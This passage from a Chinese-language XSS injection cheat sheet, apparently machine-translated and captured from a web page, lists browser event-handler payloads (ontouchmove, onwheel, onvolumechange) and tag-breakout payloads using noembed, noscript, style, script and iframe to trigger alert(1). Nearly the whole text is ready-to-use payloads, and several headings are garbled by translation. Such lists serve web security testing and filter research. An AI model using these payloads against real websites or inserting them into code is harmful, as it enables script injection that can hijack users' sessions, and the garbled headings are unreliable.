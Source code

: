 #### **触摸移动**

当触摸屏幕并移动时触发，仅移动设备

```
<body ontouchmove=alert(1)>
```

#### **ontouchstart**

触摸屏幕时触发，仅限移动设备

```
<body ontouchstart=alert(1)>
```

#### **onvolumechange**

需要音量调节

```
<audio autoplay controls onvolumechange=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **车轮上**

使用鼠标滚轮时激发

```
<body onwheel=alert(1)>
```

接下来，在我们的 XSS 注射备忘单上，我们将带您浏览不同的消费标签。

#### **不嵌入消费标签**

```
<noembed><img title="</noembed><img src onerror=alert(1)>"></noembed>
```

#### **无脚本消费标签**

```
<noscript><img title="</noscript><img src onerror=alert(1)>"></noscript>
```

#### **风格消费标签**

```
<style><img title="</style><img src onerror=alert(1)>"></style>
```

#### **脚本消费标签**

```
<script><img title="</script><img src onerror=alert(1)>"></script>
```

#### **iframe 消费标签**

```
<iframe><img title="</iframe><img src onerror=alert(1)>"></iframe>
```
